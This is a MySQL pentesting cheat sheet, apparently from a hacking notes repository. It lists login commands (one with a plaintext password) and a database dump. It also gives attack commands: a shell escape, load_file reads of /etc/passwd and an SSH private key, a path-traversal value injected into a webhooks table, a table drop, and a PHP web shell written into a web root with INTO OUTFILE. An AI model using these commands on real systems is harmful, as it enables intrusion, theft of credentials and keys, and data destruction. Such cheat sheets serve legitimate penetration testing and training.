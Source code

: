 # MySQL

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-mysqlhttps://www.phillips321.co.uk/2012/03/06/mysql-cheat-sheet/" %}

### Login

```bash
# Remote
mysql -h 10.0.0.2 -u root -p 
sudo mysql --host=192.168.142.196 --user=root --password=H4u%QJ_H99 Users

# Local
mysql -uroot -pmysql
mysql -h 127.0.0.1 --port 3306 -u root -p
```

### Dump Databases

```bash
# In case mysql login does not work, why not dump teh database
mysqldump -uroot -pmysql wordpress > /tmp/dump.txt
# username:root and password:mysql dbname:wordpress
```

### View Databases

```bash
mysql> show databases;
mysql> use [db name];
mysql> show tables;
mysql> show colums from [table name];
mysql> select * FROM [table name]; 

mysql> select version(); #version
mysql> select @@version(); #version
mysql> select user(); #User
mysql> select database(); #database name

# Get a shell
mysql>\! sh

# Show external file from database
mysql> select load_file('/etc/passwd')
mysql> select load_file('/var/lib/mysql-files/key.txt'); #Read file
mysql> select load_file('/home/hoge/.ssh/id_rsa'); 

# Update the database content in webhooks table
update webhooks set name = '../../../../../' where uuid = 'fda96d32-e8c8-4301-8fb3-c821a316cf77';

# Remove the table 
mysql> drop table [table name];
```

### Write a file

{% code overflow="wrap" %}
```bash
mysql> select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
```
{% endcode %}

